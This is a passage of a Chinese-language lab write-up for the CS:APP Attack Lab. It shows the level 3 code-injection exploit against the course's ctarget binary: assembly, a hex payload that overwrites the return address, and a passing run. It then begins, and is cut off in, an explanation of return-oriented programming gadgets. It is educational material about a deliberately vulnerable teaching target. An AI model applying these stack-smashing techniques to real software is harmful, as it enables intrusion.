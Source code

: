 流程：首先还是调用test函数，然后调用getbuf，然后我们输入进一个字符串，在这个字符串的时候我们需要调用touch3,并且需要覆盖返回地址，让其重定向到getbuf的栈顶位置，然后开始执行我们注入的代码，我们携带的参数是cookie的十六进制表示形式，然后在`hexmatch`中将cookie十六进制的表示（我们传入的参数）和unsigned val（编译时就已经确定，不需要我们传递）进行比较

这里与上面不同的地方就是需要将**cookie**放在test的栈中，防止被覆盖

构造汇编

汇编的作用就是将cookie的十六进制放在test的栈顶位置，然后把touch3入栈

```asm
movq  $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

反汇编，构造level3.txt

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

成功通过

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level3.txt>level3
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level3
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

![img](Attack Lab.assets/v2-dcd7fd081b2c60ed0443adfa044fbb27_1440w.jpg)



> 后两部分：返回导向编程--ROP
>
> ptarget使用的存储栈：使用了随机化，**栈在不同的运行中位置不同**，存储栈内存标记为**不可执行**--比ctarget更加困难
>
> 上面两条告诉我们不能用getbuf函数里面的字符串作为攻击字符串了，因为随机化的存在，我们也不能使用具体的地址了
>
> 所以采用注入代码的方法会失效，会报段错误
>
> 我们采用执行现有代码而不是注入新代码的方式进行，具体来说ROP的策略就是**识别现有程序中一个或多个指令后跟ret组成的字节序列，这样的代码段叫做gadget，用这么一个拼凑成我们的代码**
>
> ![img](Attack Lab.assets/v2-59551dc573c9444aed8ecfe2099f481d_1440w.jpg)
>
> 指令编码表：
>
> ![image-20250924210158544](Attack Lab.assets/image-20250924210158544.png)
>
> 举个例子：
>
> ```asm
> 0000000000400f15 <setval_210>:
>  400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)